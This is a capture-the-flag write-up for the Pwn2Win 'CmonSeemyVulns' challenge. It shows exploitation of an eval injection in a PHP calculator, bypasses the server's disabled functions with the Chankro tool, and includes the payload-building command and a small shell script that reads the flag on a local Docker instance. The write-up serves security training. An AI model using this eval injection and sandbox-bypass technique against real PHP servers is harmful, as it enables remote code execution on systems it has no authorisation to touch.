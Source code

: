 ```yaml
---
title: Pwn2Win - CmonSeemyVulns - Writeup
tags: pwn2win web php disable_functions chankro
---
```


# Description

![2021-05-30_21-03](https://user-images.githubusercontent.com/84577967/120118699-267d5280-c194-11eb-8fae-0fec1de1b704.png)

We were given a source code with the Dockerfile.

[c_mon_see_my_vulns](https://github.com/ab2pentest/ctfwriteups/files/6566856/c_mon_see_my_vulns_70097e678d572b03e8098868191037f5c3518ca4a8d0512573845db8a293a153.tar.gz)

Let's build it and work on it locally.

# Code Review

![2021-05-30_20-54](https://user-images.githubusercontent.com/84577967/120118712-31d07e00-c194-11eb-9ca7-dea97992fbed.png)

Snipped code from: index.php (Only PHP Part !)

![code](https://user-images.githubusercontent.com/84577967/174141852-b43da8d4-6069-43a4-a93f-406eb0b44b37.png)

In the 7th line we have an eval inside a function `do_calcs` that has been called in the line 17 ! 
But first we have to check the 4th line where we have the regex pattern so our php code must be inside 

![code](https://user-images.githubusercontent.com/84577967/174358220-78ffee4d-d1ee-49f5-a2c8-4b474068e8b5.png)

# Solution

Let's try to send a simple payload

![phpinfo](https://user-images.githubusercontent.com/84577967/174358466-4c209820-f9e6-48ca-892a-030d8d922abf.png)

This simple `phpinfo` function is going to be executed

![2021-05-30_21-11](https://user-images.githubusercontent.com/84577967/120118671-fdf55880-c193-11eb-9db9-0f1846e00f00.png)

But if we go to the disabled functions will have bunch of restricted functions:

```
exec,system,passthru,shell_exec,escapeshellarg,escapeshellcmd,proc_close,proc_open,dl,popen,show_source,posix_kill,posix_mkfifo,posix_getpwuid,posix_setpgid,posix_setsid,posix_setuid,posix_setgid,posix_seteuid,posix_setegid,posix_uname,pcntl_exec,expect_popen
```

For such situations we can use [Chankro](https://github.com/TarlogicSecurity/Chankro)

First Let's build our payload:

```bash
python2 chankro.py --arch 64 --input shell.sh --path /var/www/html --output exploit.txt
```

The shell.sh content:

```
#!/bin/sh
/readflag > /var/www/html/flag.txt
```

Great! Now let's host it on our local webserver using PHP or Python 

![payload](https://user-images.githubusercontent.com/84577967/174358048-7ea473ea-06b6-407b-9f1e-e89ff5b433ad.png)

After that we can browser the file http://127.0.0.1:1337/exploit.php

# Flag

And will get easily our http://127.0.0.1:1337/flag.txt
